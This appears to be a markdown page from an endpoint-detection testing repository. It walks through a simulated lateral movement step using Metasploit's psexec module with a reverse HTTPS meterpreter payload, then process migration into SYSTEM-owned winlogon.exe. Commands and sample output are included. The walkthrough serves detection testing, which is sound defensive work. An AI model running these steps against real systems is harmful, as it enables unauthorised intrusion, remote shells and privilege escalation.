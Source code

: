 # Phase 2 Testing

## Lateral movement

This test starts at the conclusion of [Phase 1](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/MSF-Phase-1.md) complete that test first before starting Phase 2.

For this test we will move laterally using the PsExec module in metasploit. We are using an assume breach methodology so run test with a user that has administrative permissions to the test user or is domain admin on the testing domain.

```
use exploit/windows/smb/psexec

msf6 exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_https

msf6 exploit(windows/smb/psexec) > set RHOST 172.16.2.X

set SMBDomain miratime.org
set SMBUser exampleuser
set SMBPass HASH/PW
set SESSION N

msf6 exploit(windows/smb/psexec) > exploit -j
```
Upon successful execution of this test you should get a new meterpreter session on the server.

![Lateral Session](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr9.png "Lateral Session")

## Process Injection
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...
```
List Processes with ps
```
meterpreter > ps
```
Pick a process that has SYSTEM and is x64

```
Process List
============

 PID   PPID  Name                         Arch  Session  User                          Path
 ---   ----  ----                         ----  -------  ----                          ----

812   708   winlogon.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
```

Example winlogon.exe

Run migrate with process id of target
```
meterpreter > migrate 812
[*] Migrating from 7236 to 812...
[*] Migration completed successfully.
```


